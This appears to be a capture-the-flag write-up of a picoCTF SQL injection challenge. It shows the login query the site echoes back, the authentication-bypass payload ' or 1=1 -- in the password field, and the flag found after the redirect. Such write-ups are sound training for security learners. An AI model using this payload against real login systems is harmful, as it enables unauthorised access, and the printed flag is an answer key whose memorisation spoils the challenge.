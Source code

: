 # More SQLi
Can you find the flag on this website. (200 Points)

## Solution
The website gives us a login page. Typing in some credentials will reveal the following output:
```
sername: test
password: test
SQL query: SELECT id FROM users WHERE password = 'test' AND username = 'test'
```

The title of the challenge gives tells us to use SQL injection. We hopefully can manipulate the shown SQLcall we the password field. Using `' or 1=1 --` should create the following statement:
```
SQL query: SELECT id FROM users WHERE password = '' or 1=1 -- ' AND username = 'test'
```

It logs us successfully in and shows a search field for an 'Office'. Several input doesnt reveal something interesting. SQLi may not work here.

If we check our precedure with ZAP, we find a redirection after the login. Here we can find our flag
```
<pre>username: test
password: ' or 1=1 -- 
SQL query: SELECT id FROM users WHERE password = '' or 1=1 -- ' AND username = 'test'
</pre><h1>Logged in!.</h1><p>Your flag is: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}</p>
[...]
```

## Further reading
https://portswigger.net/web-security/sql-injection
